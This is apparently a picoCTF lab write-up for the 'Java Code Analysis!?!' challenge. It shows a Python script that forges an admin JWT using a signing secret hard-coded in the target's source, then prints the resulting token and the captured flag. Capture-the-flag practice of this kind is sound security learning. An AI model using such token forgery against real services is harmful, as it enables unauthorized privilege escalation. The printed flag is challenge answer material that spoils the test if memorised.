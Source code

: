 # Java Code Analysis!?!

# Description
BookShelf Pico, my premium online book-reading service.I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!

Additional details will be available after launching your challenge instance.
# Solution

-  I change the jwt token payload to admin and userid to 2 this information is embed in the source code of the project and using the next script I generate a new jwt token with the payload before mentioned the secret key for the signature is embed in the code as well

``` python
import jwt, datetime

token = jwt.encode(
  {
    'iss': 'bookshelf',
    'iat': datetime.datetime.utcnow(),
    'exp': datetime.datetime.utcnow() + datetime.timedelta(days=7),
    'userId': 2,
    'email': 'user',
    'role': 'Admin'
  },
  '1234',
  algorithm='HS256'
)

print(token)

```

- Execution of the script 

```bash
python3 sc.py 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJib29rc2hlbGYiLCJpYXQiOjE3NDQ3NzI1MTIsImV4cCI6MTc0NTM3NzMxMiwidXNlcklkIjoyLCJlbWFpbCI6InVzZXIiLCJyb2xlIjoiQWRtaW4ifQ.WMUyfQXYSmBdLEhnIVivNN1z2apd9MKX4BmRe6vQSdI
```

-  Once I got all the part of the jwt token I just paste the data in the field of local storage and using the search bar I type flag and that's it I get the flag.

```bash
# Output
Great job! Here’s your flag:picoCTF{w34k_jwt_n0t_g00d_6e5d7df5}
```

# References
- [CTF Challenge Writeup: PicoCTF — Java Code Analysis!?! by Andrej Topalov](https://andrejtopalov.medium.com/ctf-challenge-writeup-picoctf-java-code-analysis-e1774db455dc)
